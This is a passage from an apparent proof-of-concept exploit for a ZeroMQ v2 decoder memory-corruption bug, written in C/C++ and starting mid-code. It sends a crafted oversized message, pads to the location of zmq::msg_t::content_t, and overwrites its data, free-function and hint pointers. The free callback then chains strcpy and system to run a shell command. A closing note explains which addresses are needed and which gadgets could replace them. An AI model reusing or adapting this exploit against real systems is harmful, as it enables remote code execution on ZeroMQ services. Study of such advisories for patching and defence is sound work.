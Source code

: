     const uint8_t v2msg[] = {
        0x02, /* v2_decoder_t::eight_byte_size_ready */
        0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF, /* msg_size */
    };
    send(s, v2msg, sizeof(v2msg), 0);

    /* Write UNTIL the location of zmq::msg_t::content_t */
    size_t plsize = 8183;
    uint8_t* pl = (uint8_t*)calloc(1, plsize);
    send(s, pl, plsize, 0);
    free(pl);

    uint8_t content_t_replacement[] = {
        /* void* data */
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        /* size_t size */
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        /* msg_free_fn *ffn */
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        /* void* hint */
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    };

    /* Assumes same endianness as target */
    memcpy(content_t_replacement + 0, &arg1Addr, sizeof(arg1Addr));
    memcpy(content_t_replacement + 16, &funcAddr, sizeof(funcAddr));
    memcpy(content_t_replacement + 24, &arg2Addr, sizeof(arg2Addr));

    /* Overwrite zmq::msg_t::content_t */
    send(s, content_t_replacement, sizeof(content_t_replacement), 0);

    close(s);
    sleep(1);
}

char destbuffer[100];
char srcbuffer[100] = "ping google.com";

int main(void)
{
    Thread* rt = new Thread();
    sleep(1);

    callRemoteFunction((uint64_t)destbuffer, (uint64_t)srcbuffer, (uint64_t)strcpy);

    callRemoteFunction((uint64_t)destbuffer, 0, (uint64_t)system);

    return 0;
}

Notes

Crucial to this exploit is knowing certain addresses, like strcpy and system, though the address of strcpy could be replaced with any executable location that contains stosw / ret or anything else that moves [rsi] to [rdi], and system might be replaced with code that executes the string at rsi.
